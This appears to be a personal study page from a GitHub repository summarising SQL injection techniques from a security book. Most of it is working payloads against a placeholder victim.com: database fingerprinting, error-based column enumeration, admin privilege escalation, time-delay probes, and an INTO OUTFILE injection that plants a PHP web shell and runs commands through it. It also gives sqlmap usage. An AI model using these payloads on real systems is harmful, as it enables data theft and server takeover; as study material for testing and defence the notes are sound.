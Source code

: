 <h1 class="header">SQL Injection</h1>
</br>
*02 November 2014* | [View On Github](https://github.com/sevaivanov/kedfilms/blob/master/frontend/static/frontend/md/hacks/sqli.md#variations) | [Revision History](https://github.com/sevaivanov/kedfilms/commits/master/frontend/static/frontend/md/hacks/sqli.md)

*Source: SQL Injection Attacks and Defense, 2nd Ed by Justin Clarke*

# Variations

## Comments

* MS SQL, Oracle, PostgreSQL

        --          single line
        /**/        multiple lines

* MySQL

        --          single line, requires to be followed by a character
        #           single line
        /**/        multiple lines

* AND operator has a higher priority than OR operator

## Always true statement

* MS SQL

        'ab'='a'+'b

* MySQL

        'ab'='a'b

* Oracle & PostgreSQL

        'ab'='a'||'b

# Techniques

* Commenting helps identify the database by trying to login via injection

        [http://www.victim.com/displayuser.aspx?User=Bob](#) -- Original request
        
        [http://www.victim.com/displayuser.aspx?User=B’+’ob](#) -- MSSQL
        
        [http://www.victim.com/displayuser.aspx?User=B’’ob](#) -- MySQL
        
        [http://www.victim.com/displayuser.aspx?User=B’||’ob](#) -- Oracle or PostgreSQL

* Commenting helps to bypass the extraction of spaces from input

        [http://www.victim.com/messages/list.aspx?uid=45 or 1=1](#)
        
        [http://www.victim.com/messages/list.aspx?uid=45/∗∗/or/∗∗/1=1](#)

* String with error is returned because the divison int/str wasn't intended

        ’AND 1=0/@@version;--

* HAVING wihout aggregated function GROUP BY returns the first column name of the error

        ’HAVING '1'=’1

* Enumerate all the columns in a SELECT statement by appending the found column names

        ’GROUP BY productid HAVING ‘1‘=’1
        ’GROUP BY productid, name HAVING ‘1’=’1

* Use division error to discover column values

        ’AND 1=0/user;--

* Discover other accounts with a username combined with a negative condition

        ’AND User NOT IN (‘Admin’) AND 1=0/User AND '1'='1
        

# Related HTTP errors

* 500 : rendering
* 302 : redirection

# Advises

* Avoid expensive queries as it could generate thousands of rows

        ' AND '1'='1

* False condition will only return few or none depending on the query code

        ' AND '1'='2

* MS SQL add admin privileges

        UPDATE users SET isadmin=1 ...

* Send shell commands via get, works if enough priviledges i.e. isadmin=1

        [http://www.victim.com/search.php?s=test’; SELECT ‘<?php echo shell_exec($_GET[“cmd”]);?>’ INTO OUTFILE ‘/var/www/victim.com/shell.php’;--](#)

        [http://www.victim.com/shell.php?cmd=ls](#)

* Use time delays to identify sql injection, i.e. if GET took 1.2s, injection will be delayed
        
    * MS SQL

            [http://www.victim.com/display.php?id=32; SELECT BENCHMARK(10000000,ENCODE(‘hello’,‘mom’));--](#)
        
    * Oracle doesn’t support stacked queries.DBMS_LOCK package is available only for database admins.

            [http://www.victim.com/display.php?id=32 or 1=dbms_pipe.receive_message(‘RDS’, 10)](#)
        
    * PostegreSQL >= 8.2
    
            [http://www.victim.com/display.php?id=32; SELECT pg_sleep(10);--](#)

# Tools

* wget : quickly detect server response anomaly
* awk : processing text-based data

* grep & awk recursive search

        grep -r -n “\(mysql\|mssql\|mysql_db\)_query\(.∗\$\(GET\|\POST\) .∗\)” src/ | awk -F:
        ‘{print “filename: “$1”\nline: “$2”\nmatch: “$3”\n\n”}’

* Graudit : automated source code review (deps: bash, grep, sed)

* SQLmap

You can test it for tables enumeration & banner in SQLite [loveinjection](http://www.github.com/gliderousrabbits/loveinjection/) repository

        ./sqlmap.py -u http://127.0.0.1:8000/sqlite3/level1/ --data="username=admin&password=a" -b --tables
